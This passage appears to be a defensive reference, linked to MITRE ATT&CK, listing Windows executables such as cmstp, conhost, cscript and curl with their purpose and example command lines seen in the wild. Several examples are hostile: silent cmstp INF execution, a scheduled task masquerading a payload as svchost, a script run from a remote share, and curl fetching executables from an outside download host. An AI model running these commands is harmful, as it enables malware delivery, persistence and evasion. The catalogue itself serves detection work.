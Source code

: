 Reference: [https://attack.mitre.org/techniques/T1191/](https://attack.mitre.org/techniques/T1191/)

Command  line examples:

    cmstp.exe /s /ns "%APPDATA%\Microsoft\10850.txt"
    cmstp.exe /s /su /ns df81c455-615e-4add-92e3-ce4a12d882d8.inf

### conhost.exe
Function: Host process for the console window. The process sort of sits in the middle between CSRSS and the Command Prompt (cmd.exe)

Command  line examples:

    conhost.exe "-1036909723-245440756159895655010408828331479810903-3149622581357818589-674575599"
    conhost.exe schtasks /create /tn "svchost" /tr "%WINDIR%\resources\svchost.exe" /sc daily /st 17:00 /f

### csc.exe
Function:  CSC stands for Visual C# [sharp] Command-Line Compiler.

Command  line examples:

    csc.exe /noconfig /fullpaths @"%TEMP%\-h_g5jfn.cmdline"

### cscript
Function: Starts a script so that it runs in a command-line environment.

Command  line examples:

    cscript %TEMP%\file.vbs
    cscript //nologo \\tK2PgXIebP\BIN\PreviousDate.vbs

### csv.exe
Function: *//will be add later*

Command  line examples:

    csv.exe %TEMP%\83890727\AARIA
    csv.exe dic=ngi

### curl.exe
Function: A command line tool and library for transferring data with URLs.

Command  line examples:

    curl.exe -o new.exe http://down.pzchao.com:18559/new.exe
    curl.exe -o pass32.exe http://down.pzchao.com:18559/pass32.exe -u 123:456

### cvtres.exe
Function: Windows Resource to Object Converter. It is part of the C++ toolchain to turn resource files (.res) in to compiled objects that can be linked using the linker.

Command  line examples:

    cvtres.exe /NOLOGO /READONLY /MACHINE:IX86 "/OUT:%TEMP%\RES1055.tmp" "%TEMP%\CSC1036.tmp"
